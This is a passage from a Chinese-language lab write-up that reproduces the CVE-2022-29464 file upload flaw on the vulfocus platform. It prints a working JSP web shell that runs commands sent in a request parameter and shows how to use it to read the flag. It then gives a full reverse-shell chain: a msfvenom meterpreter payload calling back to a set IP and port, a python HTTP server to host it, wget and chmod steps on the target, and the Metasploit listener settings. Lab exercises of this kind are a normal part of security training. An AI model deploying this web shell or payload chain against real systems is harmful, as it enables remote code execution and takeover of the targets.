<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

返回数字即为上穿成功，任何可以通过访问https://ip:port/authenticationendpoint/1.jsp


至此成功实现了CVE-2022-29464文件上传漏洞

**4.取得flag**

可以在内输入指令ls查看目录结构


由于vulfocus的flag存放于tmp目录下，我们直接使用指令 ls /tmp 查看flag


至此成功取得flag，本次漏洞成功复现

##### **msf反弹shell**

若是这种查看方式过于繁琐，可以使用msf取得shell

**1.生成linux木马命令**


```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.0.0.127 lport=4444 -f elf -o shell.elf
```

**2.使用python开启http服务**

python3 -m http.server 9999

**3.让靶机下载**


在框中输入wget http://0.0.0.0:9999/shell.elf

并且给shell.elf文件执行权限 chmod 777 shell.elf

**4.开启msf监听**


```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 10.0.0.127
set lport 4444
```

**5.使靶机运行木马**

./shell.elf

在msf中就能拿到反弹的shell


